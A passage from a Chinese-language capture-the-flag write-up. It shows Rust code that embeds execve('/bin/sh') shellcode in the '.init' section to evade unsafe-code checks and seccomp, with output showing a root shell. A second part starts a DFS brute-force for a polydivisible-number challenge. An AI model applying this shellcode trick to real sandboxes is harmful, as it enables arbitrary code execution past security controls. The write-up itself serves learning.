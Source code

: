 ```python
```

然后塞到程序里：

```rust
#![forbid(unsafe_code)]

#[link_section=".init"]
#[no_mangle]
pub static shellcode: [u8; 48] = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5];

pub fn run() {
}
```

跑一跑：

```console
root@b158b3a007f3:/workspace/home/saferust# cargo run --release
   Compiling saferust v0.1.0 (/workspace/home/saferust)
    Finished release [optimized] target(s) in 0.16s
     Running `target/release/saferust`
# whoami
root
```

成功！因为我们的 shellcode 在 main() 之前运行，所以 seccomp 限制也和我们毫无关系。

## 381654729

可以搜索到，[381654729 是十进制意义下唯一的每位数字都不同的 Polydivisible number](https://proofwiki.org/wiki/Definition:Polydivisible_Number)，并且程序似乎是要找个十六进制意义下的 polydivisible number。

找了一下 OEIS，没有找到有那么大的数的序列，我也不太懂算法，最后写了个 DFS 爆破之：

```python
# 0x666c616774c84912e26ad72b668ce22d54447a4b6127713f
# 0x000000000f????????????????????????????????????42

# 0x000000000f????????????????????????????????????42

# flag=input("Flag: ").encode()
# if len(set(flag)-set(range(127)))>0:
#     print("Wrong")
# else:
#import string
num=       0xf00000000000000000000000000000000000042
#remaining= 0xc84912e26ad72b668ce22d54447a4b612771
#printable = string.printable
num_len=len(hex(num))-2

def dfs(pos):
    global num
    if pos > num_len - 2:
        print("Find a potential number")
        print(num)
        print(hex(num))
        flag = True
        for i in range(1, num_len+1):
            if (num>>((num_len-i)*4))%i>0:
                flag = False
                print("But not expected")
                break
        if flag is True:
            exit()
```